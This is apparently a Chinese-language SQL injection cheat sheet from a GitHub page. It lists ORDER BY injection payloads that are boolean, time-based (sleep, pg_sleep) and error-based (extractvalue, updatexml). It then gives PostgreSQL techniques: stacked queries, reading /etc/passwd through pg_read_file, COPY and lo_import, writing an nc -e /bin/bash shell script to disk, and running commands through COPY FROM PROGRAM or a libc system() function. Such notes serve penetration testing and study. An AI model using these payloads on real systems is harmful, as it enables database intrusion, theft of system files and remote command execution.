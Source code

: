 当字段名未知： 当条件判断为假，则会执行`select 1 from information_schema.tables`导致报错，为真则返回正常排序结果。

```sql
order by if(判断条件,1,(select 1 from information_schema.tables)); 
```

当排序结果不会因不同的列产生明显变化，可以通过构造case或if语句，根据响应时间判断条件是否正确。

```sql
order by if(判断条件, sleep(5), 1)
order by (case when (判断条件) then pg_sleep(5) else 1 end)
```

#### 2、基于报错注入

利用`extractvalue`和`updatexml`。 `extractvalue(XML_document, XPath_string)` 用于从XML文档中提取一个值，利用函数对`XPath_string`格式的严格要求，通过构造非法的路径，比如用`~`（0x7e）或者其他非法字符开头的字符串使得数据库在报错信息中泄露出想要的数据。`updatexml(XML_document, XPath_string, new_value)`用于修改XML文档中的一个值，利用的原理和`extractvalue`相同。

```sql
order by extractvalue(1,(select concat(0x7e,database())))
order by updatexml(1,(select concat(0x7e,database())),1)
```

## 针对特定数据库的方法

数据库有什么特点？能不能堆叠？能不能写文件？能不能执行命令？有哪些常见的特有语法？三目运算符、字符串处理的常见函数有哪些？

### MySQL

### MariaDB

### PostgreSQL（Vqs147）

堆叠：PHP的pg_query()和pg_send_query()，python的psycopg2库中cursor.execute()都可以堆叠。

读文件：（需要权限）

1、`SELECT pg_read_file('/etc/passwd', 0, 200);`

2、`CREATE TABLE temp(t TEXT); COPY temp FROM '/etc/passwd'; SELECT * FROM temp;`

3、`SELECT lo_import('/etc/passwd'); `

`   SELECT lo_get(16420); -- use the OID returned from the above `

`   SELECT * from pg_largeobject;`

写文件：（需要权限）

`COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/1.sh';`等

执行命令：（需要权限）

1、`CREATE TABLE shell(output text); COPY shell FROM PROGRAM '...';`

2、`COPY (SELECT '') to PROGRAM '...'`

3、`CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT; SELECT system('...');`
